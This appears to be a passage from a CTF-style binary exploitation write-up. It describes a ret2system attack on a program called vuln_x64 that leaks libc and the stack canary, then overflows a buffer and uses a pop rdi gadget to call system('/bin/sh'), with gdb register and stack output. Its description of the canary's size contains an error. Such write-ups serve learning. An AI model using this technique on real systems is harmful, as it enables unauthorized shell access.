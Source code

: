 
Having access to libc is like opening the box of the pandora.  
So much useful functions in there.  
I chose to go the `ret2system` way and calculated the address of `system()` and a pointer to `/bin/sh` from the libc base address.  
All of that happens in `get_system_in_glibc(libc_base)` and `get_bin_sh_in_glibc(libc_base)`.  

A really valuable information happened to be at the 71th position in the leaked data.  
We got our stack canary, which we need to successfully leverage a buffer overflow!  
This one is especially easy to spot since its a 16 bit value where the 2 least significant bits are both 0.  
I just extracted the value from the dump in `get_canary_value(leak_dump)`.  

All that is left now is putting it all together.  
This happens in `create_payload(canary, system, shell)`.  
I'm filling the buffer until right before it overflows in the stack canary.  
Then I'm appending the canary value and continue to overwrite the `RBP` with some junk, since it's irrelevant what we put here for the PoC.  
Afterwards our little friend the `pop rdi; ret` gadget is put onto the stack.  
Lastly a pointer to our wanted shell and the system call itself are added.  

Let's visualize this in gdb.  
Right when we hit the `ret` instruction in `trustMeIAmAnEngineer` after our buffer overflow happened our registers and stack look like this:

```
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0x7f6c34d4c260 (<__read_nocancel+7>:	cmp    rax,0xfffffffffffff001)
RDX: 0x800 
RSI: 0x7ffdc2a90090 ("aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab"...)
RDI: 0x0 
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7ffdc2a904a8 --> 0x400903 (<__libc_csu_init+99>:	pop    rdi)
RIP: 0x400812 (<trustMeIAmAnEngineer+78>:	ret)
R8 : 0x7f6c35219700 (0x00007f6c35219700)
R9 : 0x3 
R10: 0x37b 
R11: 0x246 
R12: 0x400670 (<_start>:	xor    ebp,ebp)
R13: 0x7ffdc2a905a0 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40080a <trustMeIAmAnEngineer+70>:	je     0x400811 <trustMeIAmAnEngineer+77>
   0x40080c <trustMeIAmAnEngineer+72>:	call   0x400600 <__stack_chk_fail@plt>
   0x400811 <trustMeIAmAnEngineer+77>:	leave  
=> 0x400812 <trustMeIAmAnEngineer+78>:	ret    
   0x400813 <main>:	push   rbp
   0x400814 <main+1>:	mov    rbp,rsp
   0x400817 <main+4>:	sub    rsp,0x10
   0x40081b <main+8>:	mov    DWORD PTR [rbp-0x4],edi
[------------------------------------stack-------------------------------------]
0000| 0x7ffdc2a904a8 --> 0x400903 (<__libc_csu_init+99>:	pop    rdi)
0008| 0x7ffdc2a904b0 --> 0x7f6c34de1d57 --> 0x68732f6e69622f ('/bin/sh')
0016| 0x7ffdc2a904b8 --> 0x7f6c34c9a390 (<__libc_system>:	test   rdi,rdi)
0024| 0x7ffdc2a904c0 --> 0x40080a (<trustMeIAmAnEngineer+70>:	je     0x400811 <trustMeIAmAnEngineer+77>)
0032| 0x7ffdc2a904c8 --> 0x7f6c34c75830 (<__libc_start_main+240>:	mov    edi,eax)
0040| 0x7ffdc2a904d0 --> 0x0 
0048| 0x7ffdc2a904d8 --> 0x7ffdc2a905a8 --> 0x7ffdc2a92109 ("./binaries/vuln_x64")
0056| 0x7ffdc2a904e0 --> 0x135244ca0 
```